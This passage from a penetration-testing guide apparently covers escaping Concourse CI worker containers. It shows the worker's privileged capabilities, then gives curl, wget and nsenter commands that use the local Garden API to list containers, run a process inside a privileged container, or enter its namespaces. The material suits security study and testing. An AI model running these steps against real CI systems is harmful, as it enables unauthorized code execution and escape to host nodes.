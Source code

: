 Concourse workers run with high container privileges:

```
Container Runtime: docker
Has Namespaces:
	pid: true
	user: false
AppArmor Profile: kernel
Capabilities:
	BOUNDING -> chown dac_override dac_read_search fowner fsetid kill setgid setuid setpcap linux_immutable net_bind_service net_broadcast net_admin net_raw ipc_lock ipc_owner sys_module sys_rawio sys_chroot sys_ptrace sys_pacct sys_admin sys_boot sys_nice sys_resource sys_time sys_tty_config mknod lease audit_write audit_control setfcap mac_override mac_admin syslog wake_alarm block_suspend audit_read
Seccomp: disabled
```

However, techniques like **mounting** the /dev device of the node or release\_agent **won't work** (as the real device with the filesystem of the node isn't accesible, only a virtual one). We cannot access processes of the node, so escaping from the node without kernel exploits get complicated.

{% hint style="info" %}
In the previous section we saw how to escape from a privileged container, so if we can **execute** commands in a **privileged container** created by the **current** **worker**, we could **escape to the node**.
{% endhint %}

Note that playing with concourse I noted that when a new container is spawned to run something, the container processes are accessible from the worker container, so it's like a container creating a new container inside of it.

**Getting inside a running privileged container**

```bash
# Get current container
curl 127.0.0.1:7777/containers
{"Handles":["ac793559-7f53-4efc-6591-0171a0391e53","c6cae8fc-47ed-4eab-6b2e-f3bbe8880690"]}

# Get container info
curl 127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/info
curl 127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/properties

# Execute a new process inside a container
## In this case "sleep 20000" will be executed in the container with handler ac793559-7f53-4efc-6591-0171a0391e53
wget -v -O- --post-data='{"id":"task2","path":"sh","args":["-cx","sleep 20000"],"dir":"/tmp/build/e55deab7","rlimits":{},"tty":{"window_size":{"columns":500,"rows":500}},"image":{}}' \
  --header='Content-Type:application/json' \
  'http://127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/processes'
  
# OR instead of doing all of that, you could just get into the ns of the process of the privileged container
nsenter --target 76011 --mount --uts --ipc --net --pid -- sh
```
